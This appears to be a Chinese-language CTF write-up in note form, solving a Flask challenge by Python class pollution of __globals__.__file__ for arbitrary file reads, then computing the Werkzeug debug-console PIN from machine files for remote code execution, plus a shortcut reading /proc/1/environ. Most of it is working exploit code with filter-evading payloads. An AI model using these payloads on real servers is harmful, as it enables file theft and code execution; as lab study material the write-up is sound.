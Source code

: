 tags:: [[CTF/Python/Python的原型链污染]], [[CTF/Flask/Debug模式RCE]]

- > 复现
- # 思路
	- 使用[类型污染]([[CTF/Python/Python的原型链污染]])污染`__file__`实现任意读取文件
	- 对`/console`路径打[[CTF/Flask/Debug模式RCE]]
- # 对象类型污染 -> 任意文件读取
	- 污染`__globals__`下的`__file__`即可
	- ```python
	  def read_file(pathname):
	  
	      payload = {
	          "username": "123",
	          "password": "123",
	          "__class__": {
	              "__init__": {
	                  "__globals__": {
	                      "__file__": pathname
	                  }
	              }
	          }
	      }
	  
	      payload = json.dumps(payload)
	      payload = payload.replace("__class__", enc_dec.full_urlencode("__class__", head = "\\u00"))
	      payload = payload.replace("__init__", enc_dec.full_urlencode("__init__", head = "\\u00"))
	  
	      r = base_post(url + "register", data = payload)
	      r = base_get(url)
	      return r.text
	  
	  ```
- # 打Flask的debug模式RCE
	- 这题不知道为什么可以通过`/console`访问终端
	- 读文件算pin
		- ```python
		  
		  import hashlib
		  from itertools import chain
		  
		  
		  eth0 = read_file("/sys/class/net/eth0/address")
		  eth0 = str(int("".join(eth0.split(":")), 16))
		  machine_id = read_file("/etc/machine-id").strip()
		  cgp = read_file("/proc/self/cgroup").rpartition("/")[2].strip()
		  
		  rv, num = None, None
		  
		  probably_public_bits = [
		      'root'# 用户名
		      'flask.app',# modname
		      'Flask',# getattr(app, '__name__', getattr(app.__class__, '__name__'))
		      "/usr/local/lib/python3.10/site-packages/flask/app.py" # getattr(mod, '__file__', None),
		  ]
		  
		  private_bits = [
		      str(eth0),# str(uuid.getnode()),  /sys/class/net/ens33/address
		      machine_id + cgp
		  ]
		  h = hashlib.sha1()
		  for bit in chain(probably_public_bits, private_bits):
		      if not bit:
		          continue
		      if isinstance(bit, str):
		          bit = bit.encode("utf-8")
		      h.update(bit)
		  h.update(b"cookiesalt")
		  
		  cookie_name = f"__wzd{h.hexdigest()[:20]}"
		  
		  if num is None:
		      h.update(b"pinsalt")
		      num = f"{int(h.hexdigest(), 16):09d}"[:9]
		  
		  if rv is None:
		      for group_size in 5, 4, 3:
		          if len(num) % group_size == 0:
		              rv = "-".join(
		                  num[x : x + group_size].rjust(group_size, "0")
		                  for x in range(0, len(num), group_size)
		              )
		              break
		      else:
		          rv = num
		  
		  print(rv)
		  
		  ```
- # 非预期思路
	- 直接读`/proc/1/environ`
		- ```python
		  def read_file(pathname):
		  
		      payload = {
		          "username": "123",
		          "password": "123",
		          "__class__": {
		              "__init__": {
		                  "__globals__": {
		                      "__file__": pathname
		                  }
		              }
		          }
		      }
		  
		      payload = json.dumps(payload)
		      payload = payload.replace("__class__", enc_dec.full_urlencode("__class__", head = "\\u00"))
		      payload = payload.replace("__init__", enc_dec.full_urlencode("__init__", head = "\\u00"))
		  
		      r = base_post(url + "register", data = payload)
		      r = base_get(url)
		      return r.text
		  print(read_file("/proc/1/environ"))
		  
		  ```